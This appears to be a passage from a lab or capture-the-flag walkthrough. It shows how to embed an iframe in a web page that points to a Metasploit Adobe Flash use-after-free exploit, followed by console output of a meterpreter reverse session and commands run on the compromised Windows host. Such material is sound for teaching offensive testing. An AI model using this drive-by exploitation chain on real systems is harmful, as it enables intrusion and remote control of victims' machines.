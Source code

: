 In one terminal window running the initial metasploit module, edit submit_story.html with an iframe that refers to the URI given by the adobe module above.

Sessions will connect to that second module:

<pre>

[-] Unknown command: session.
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  6         meterpreter x86/windows  DPRK\choe.hang-na @ PLANNER  10.13.0.151:4444 -> 192.168.51.66:49450 (192.168.100.10)

msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > 
meterpreter > 
meterpreter > ls
Listing: C:\Users\choe.hang-na\Desktop
======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1674  fil   2017-02-24 15:26:02 -0500  Excel.lnk
100666/rw-rw-rw-  1694  fil   2017-02-24 15:26:08 -0500  Word.lnk
100666/rw-rw-rw-  282   fil   2017-02-21 03:09:43 -0500  desktop.ini

meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  3
============
Name         : Intel(R) 82574L Gigabit Network Connection
Hardware MAC : 50:57:4e:17:01:01
MTU          : 1500
IPv4 Address : 192.168.100.10
IPv4 Netmask : 255.255.255.0


Interface  4
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:640a
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
</pre>
